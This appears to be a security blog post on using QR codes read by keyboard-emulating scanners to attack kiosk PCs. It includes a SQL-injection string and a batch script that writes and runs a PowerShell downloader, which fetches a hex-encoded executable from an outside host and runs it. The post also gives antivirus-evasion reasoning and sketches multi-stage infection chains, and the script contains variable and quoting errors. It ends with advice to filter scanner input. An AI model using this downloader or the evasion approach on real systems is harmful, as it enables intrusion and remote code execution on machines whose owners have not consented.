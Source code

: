 ```yaml
---
2016-06-17
---
```


More and more use bar codes outside the retail industry as a source or pointer to information. If you think about it, this also serves as a teaser to the observer as the information is not there in clear text. The target is bound to try to find out what it says...

The QR Code

First a short re-cap; QR - Or Quick Response Code which was originally invented for the japanese automotive industry is a bar code standard which encode data into a two-dimensional matrix. And when I talk to people, the most common denominator is that they think the code is only representing a URL, and that nothing else may be contained in it. In fact in can contain so much more!

Data Capacity

The standard shows quite an impressive capacity as shown in the following table:

Input Type	Max. Chars.	Possible Chars.
Numeric	7,089	0-9
Alphanumeric	4,296	0-9, A-Z (Upper case only), space, $, %, *, +, -, ., /, :
Binary	2,953	ISO 8859-1

This of course also all depends on which error correction level being used. The higher level, the more redundancy must be encoded, which in turn of course consumes more space:

Low - 7% of all code words may be restored
Medium - 15% of all code words may be restored
Qartile - 25% of all code words may be restored
High - 30% of all code words may be restored

So if parts of the QR Code is torn off, blurred or in other ways corrupted it may still be successfully scanned. You may have seen this utilized in a very creative manner, where the creater put their logo in the QR code. As ou may imagine, this gives us a lot to work with as this is more than enough in order encode a backdoor, dropper or any other type of exploit into a single QR Code image.

The Scanner

In order to interpret the QR Code we need a scanner or a software implemented image interpreter. Most of us know the latter best as a small app for your smart phone. These are also the main reason why so many know of the QR Code technique. However in this caase we will focus on the second common scanner type that the public comes in contact with: Kiosk PCs, Price tag and serach terminals and similar. Many of these scanners are connected to the system as a standard USB HID keyboard and as such have most of its functionality. This means that anything that can be done via the keyboard can be done via a QR Code.

From experience I've found that most scanners are lacking support for special keys such as ALT, ALT Gr and key combinations such as CTRL+ALT+DEL though. Many also support a wide variety of code standards such as Code 128 and QR Code just to mention two of the more capable. This may have real security implications if the system in question is a keyboard-less kiosk PC or where an on-screen software keyboard is used which functionality is filtered.

So what can we do with it in the end?

As you may have imagined, a lot of mischief can be done! The below QR code is the encoded string:

'OR 1=1--

Imagine what would happen in for example a kiosk PC environment where special keys are supressed and the web application it is running is suceptible to SQL injection.

Why stop there? Given the capacity of a single image it is technically possible to embedd a pretty advanced piece of malware into one image. Say you have access to the command prompt at this stage: The example below is a PoC of a small downloader written in PowerShell. But first we need to get the script onto the system which we do with a simple cmd job echoing the script into a file and then executes it. When executed it downloads a binary encoded into ASCII hex, converts it back into a binary and executes it.

Below is the batch code which writes the PowerShell script to file:

@echo off
echo function DLE>C:\f.ps1
echo {$w=New-Object System.Net.WebClient>>C:\f.ps1
echo [string]$h=$webClient.DownloadString(http://www.0x90.se/bin)>>C:\f.ps1
echo [Byte[]]$t=$h -split ' '>>C:\f.ps1
echo [System.IO.File]::WriteAllBytes("$env:C:\Windows\System32\temp\s.exe", $t)>>C:\f.ps1
echo start-process -nonewwindow "$env:C:\Windows\System32\temp\s.exe"}>>C:\f.ps1
echo DLE>>C:\f.ps1
C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe C:\f.ps1
rm C:\f.ps1

powershell.scriptAnd to the left is the above code represented as a QR Code. This particular binary downloaded is programmed just to start the calculator, so have no fear!

- "Hey! Why do you need to encode it into ASCII hex in the first place when you can download the binary directly?"...True! But I have a greater chance in bypassing any IPS's and antiviral protections on the way that may be watching us. The downloader in this case is just a mere 481 bytes so it fits very well in a QR Code image. And if you take a closer look at the two first hex values (x77, x90) in the partial hex representation below to the right you will find that it is the initial bytes of the DOS header in a typical PE executable: MZ

The downloaded ASCII hex encoded binary is just above 18k so it unfortunately falls out of any range supported by the QR standard. If I encode the same routine using Metasploit for example I end up with a binary that is about 5k and a hex file around 13k. This binary also triggers most AV products as well. If you put your mind to it, you would be able to make the executable much smaller if it were to be written in for example ASM. The ultimate goal would be to have it all selfcontained in one single QR Code: One image, one hit.

Using the above method we could also implement a standard multi-staged chain of infection of a typical APT: Plant dropper --> download recconaissance program --> download custom malware. So in effect it will take just milliseconds to enter each code via the reader and a few seconds for it to execute the whole attack. In case the code is bigger we just need to split it into several QR Code images. A typical A4/Letter sheet would be able to hold several tens of kilobytes.

We can easily exploit other services such as web applications and transport layer implementations as well letting the victim do our biddings using the QR Code as a bearer of the initial prerequisites for an attack. This cold range from attacks such as SQL injection and Cross-Site Scripting to buffer overflow attacks and information theft.

Conclusion

Imagine a scenario where a serious vulnerability is discovered in the component that handles QR Code decoding in a mobile platform. Paste the exploit on a public billboard and own as many mobile devices as you want! Perhaps you may want to think twice before scanning that unknown QR Code.

Regarding scanners, always think of them in terms of a keyboard and the power that comes with that type of device. It will most certainly be present and active at all times even if software keyboards are suppressed at certain points (or always?). The input from a scanner will need to be filtered, validated and perhaps truncated just as any other untrusted source.

For more information about the QR Code standard, please see Wikipedia for great coverage: http://en.wikipedia.org/wiki/QR_code

Finally, here is food for thought: How do we check public billboards etc. for malicous QR Code content? Do we hire personnel driving around town scanning QR codes for malicious content? ;)

Credits due: PowerShell inspiration gotten from Nikhil at http://labofapenetrationtester.blogspot.com/